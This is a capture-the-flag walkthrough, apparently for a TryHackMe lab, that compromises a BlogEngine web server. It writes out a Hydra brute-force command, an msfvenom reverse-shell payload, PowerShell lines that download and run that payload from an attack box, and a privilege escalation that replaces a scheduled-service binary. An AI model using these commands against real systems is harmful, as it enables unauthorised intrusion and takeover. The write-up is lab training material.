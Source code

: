 ## Recon
 
Begin recon with NMAP to see which ports are open on the box
 
 ![image](https://user-images.githubusercontent.com/88425510/215881658-a6e4f83f-dab3-4642-882e-db8aa872ad88.png)
 
NMAP shows that port 80 is open, suggesting there is a webpage being hosted by this machine.
 
Enumerate the webpage using GOBUSTER
 
 ![image](https://user-images.githubusercontent.com/88425510/215881709-65b0567b-80a4-491b-8bd6-7537a574485b.png)
![image](https://user-images.githubusercontent.com/88425510/215881730-2db10926-5a98-41bc-807a-153e028f5312.png)

 
This shows a number of places to check - note robots.txt
 
Visit robots.txt to see if there is any useful information available
 
 ![image](https://user-images.githubusercontent.com/88425510/215881777-52aa1b05-3f38-4d5a-a2e7-f280cae8b0a3.png)
 
Account looks promising
 
Navigate to account to see what we have

 ![image](https://user-images.githubusercontent.com/88425510/215881821-b08fe4fc-aa3e-49e8-adc5-f0c27d377852.png)
 
Note the default credentials seems to be admin:admin - this does not work so we will use admin as the username and attempt to bruteforce the password
 
## Foothold
 
Attempt a login and capture it with Burpsuite to gain information needed to form the Hydra attack
 
 ![image](https://user-images.githubusercontent.com/88425510/215881899-15f4d0b0-8f35-4b27-8548-ee7e26685e85.png)

Lines 1 and 14 are needed
Take these parts from Burp and the webpage to create Hydra command:
 
 ![image](https://user-images.githubusercontent.com/88425510/215881925-d88e0953-f22b-4f85-846c-9ef155e7f23b.png)
![image](https://user-images.githubusercontent.com/88425510/215881971-e7bd79f6-3201-4100-8438-7c7f1b09c86e.png)

 ![image](https://user-images.githubusercontent.com/88425510/215882009-6bae3aca-fdd6-4a1c-ab96-15472ce2a9f8.png)
 
Login failed
 
 
 
Combine the failed login message and the POST and VIEWSTATE fields to create the Hydra attack:
 
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.176.34 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=VwAXG6ABUHHdsZyp9V5Zfa%2FQmIafRzp9ILoXJGVuXK8nUhCHtDfc4cAUkNeYybCBgFS7ttIKN9%2BL1TZYt9wc7ImbzKDO42jKqT4NzM2iK4qGYFdI5l7pg9jiSeKSYGI82ymoCvW67UVtpc1TE%2B1wg%2FuUJT23Wobx8ck39wYrMVKKYXRX&__EVENTVALIDATION=3FvnxLCU1vf%2FftSD5m08pwViCr63XR1GLrEKqv2qr42Hq8JQp2LWRA97rKzv1QZ1I8etW3igopbcuFlAq9be8kEAzsR5lfswhZLzLPLpwJrudjeGAiqRUNtpYvd2OfVPGKlinHl3CuVaVXXWfMEWJuKroB6hY9%2BlMqRgvnn3xhT%2Bzmv0&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
 
Note: ^USER^ and ^PASS^ must be used to use the username and password list
 
 ![image](https://user-images.githubusercontent.com/88425510/215882113-324e4abe-518a-449f-8c45-e0f952c262be.png)
 
Attack successful
 
## ID vulns
 
Login with the stolen credentials and then learn about the system
 
![image](https://user-images.githubusercontent.com/88425510/215882190-e03adfd8-a2b5-4960-a267-8d7aa68121fc.png)

See what verstion, google and search exploit-DB
 
https://www.exploit-db.com/exploits/46353
 
 ![image](https://user-images.githubusercontent.com/88425510/215882217-23cc0115-51f0-4bc4-a49d-14b67cc76c33.png)
  
Download and configure the exploit, remove bloat at the start and put attackbox info in socket
 
 ![image](https://user-images.githubusercontent.com/88425510/215882296-f7baf7c8-f18f-48f4-8131-ecd13176372f.png)
 
Attack box netcat listener on same port used in exploit
 
 ![image](https://user-images.githubusercontent.com/88425510/215882328-bdf896a3-ef24-4ec8-8efb-6553ec9f2ebe.png)
 
Exploit-DB how to use exploit
 
 
 
Upload the exploit
 
 ![image](https://user-images.githubusercontent.com/88425510/215882417-52ceb1cc-2a97-402d-b84d-61347262061b.png)
 
 ![image](https://user-images.githubusercontent.com/88425510/215882448-032138fc-2a4c-4630-8ca6-cabcb4ccb34b.png)

Shell popped
 
## Shell stabilisation
 
 ![image](https://user-images.githubusercontent.com/88425510/215882481-9478302a-342f-4027-9dc8-fde50b57699b.png)
 
Some on box enumeration
 
Going to stabilise the shell with a meterpreter shell as it crashed a couple of times:
 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.87.68 LPORT=9001 -f exe > shell.exe
 
 ![image](https://user-images.githubusercontent.com/88425510/215882523-b58d6d30-3d0d-46b9-b2b0-34b40caa3b29.png)
 
python3 -m http.server
 
 ![image](https://user-images.githubusercontent.com/88425510/215882566-9695fa26-79fa-4485-9a78-8193fb73cee9.png)

Host a simple http server
 
On the target machine navigate to world writable location:
 
 ![image](https://user-images.githubusercontent.com/88425510/215882597-dd339976-c182-40c6-b7d6-0bcfa276baee.png)
 
powershell -c "Invoke-WebRequest -Uri 'http://10.10.87.68:8000/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"
 
 ![image](https://user-images.githubusercontent.com/88425510/215882617-7a1dde73-7049-46a0-bb08-2016abe78e51.png)

Use powershell to pull the meterpreter shell over
 
## Get meterpreter shell
 
Open metasploit on attack box and set up a multi/handler
Note - 
set payload windows/meterpreter/reverse_tcp
Set lport to port used in msfvenom payload
Set lhosts to attack box
 
 ![image](https://user-images.githubusercontent.com/88425510/215882673-aa04534b-b6f3-4d1f-8f59-d36540e7d871.png)

Running shell.exe on target machine and getting session on metasploit
 
 
## On host enumeration
 
Upload winPEAS
 
 ![image](https://user-images.githubusercontent.com/88425510/215882711-ef262bed-e2ba-4e3a-a35c-88f3020b002d.png)

Attack box hosing simple python server

![image](https://user-images.githubusercontent.com/88425510/215882739-5ebee602-d7d0-475a-8677-1905a7606000.png)

powershell -c "Invoke-WebRequest -Uri 'http://10.10.189.26:8000/winPEAS.bat' -OutFile 'C:\Windows\Temp\winPEAS.bat'"
 
 
Using powershell to get winPEAS
 
In Shell:
 
.\winPEAS.bat
 
In order to actually read the winPEAS output I had to pipe it to a .txt file and download it. I think this is something to do with the buffer/ terminal memory on the attack box. Something to look in to again.
The output shows that WindowsScheduler is running, this can often be abused
 
In order to read the output:
.\winPEAS.bat > winpeas.txt
Download winpeas.txt
Less winpeas.txt
 
 
Having the below service running means something is scheduled:
 
![image](https://user-images.githubusercontent.com/88425510/215882826-3e8b1128-cd5a-4023-acd2-193c3585b611.png)

Navigate to program filex x86 \systemscheduler \events
 you can see what is being run
 
![image](https://user-images.githubusercontent.com/88425510/215882884-a5083080-3c5c-439b-a1d6-51c4e86e45e0.png)

![image](https://user-images.githubusercontent.com/88425510/215882932-c52f25ff-c24e-4e7b-882a-538f68bc4d71.png)

![image](https://user-images.githubusercontent.com/88425510/215882954-34f78cef-6519-40a0-8c53-22523b14c788.png)
 
We can replace message.exe with our shell.exe and as it is being run as administrator this will elevate our privileges
For some reason on this box you cannot copy it and so will have to download it as before
 
Get shell.exe into systemscheduler:
 
powershell -c "Invoke-WebRequest -Uri 'http://10.10.189.26:8000/shell.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\shell.exe'"
 
Exploit service:
 
![image](https://user-images.githubusercontent.com/88425510/215883005-a2d10dab-6ea2-432c-bcef-086b9235c831.png)
![image](https://user-images.githubusercontent.com/88425510/215883032-6c0d9df9-7fe6-4c8b-934d-8dae7ff38517.png)
![image](https://user-images.githubusercontent.com/88425510/215883049-6d25a5c3-54a4-4ebd-a383-d8e923ac668b.png)

 
Replace message.exe with shell.exe
 
Note, this creates a session every 30 secons when the service runs so stop handler after you have one
 
## Getting flags:
 
Session 2 gives admin session

![image](https://user-images.githubusercontent.com/88425510/215883109-c73902f7-0ac3-4573-a72a-0364e012f6fc.png)
 
Look around for flags, both were on respective users desktops

![image](https://user-images.githubusercontent.com/88425510/215883160-72ec04fd-d7fe-400f-9a1d-da4e677e0443.png)

![image](https://user-images.githubusercontent.com/88425510/215883202-02915721-c309-4912-9770-51ec57eef056.png)

![image](https://user-images.githubusercontent.com/88425510/215883220-ed5c6814-8bae-4d6e-a7d9-10e19094f723.png)
 
Answer to one of the questions
 
## Final thoughts
 
This was an enjoyable box. I followed along the video on THM for the priv esc stuff. 
It took a long time for me to craft the Hydra command correctly, I spent a good 30 mins waiting and then got a load of false positives, then recrafted the command and got it right. 
The winPEAS scrolling problem is something I need to look back into, I've had it before on other machines and did find a fix previously but cannot remember what it was, although saving outputs is a useful thing to do. 
 

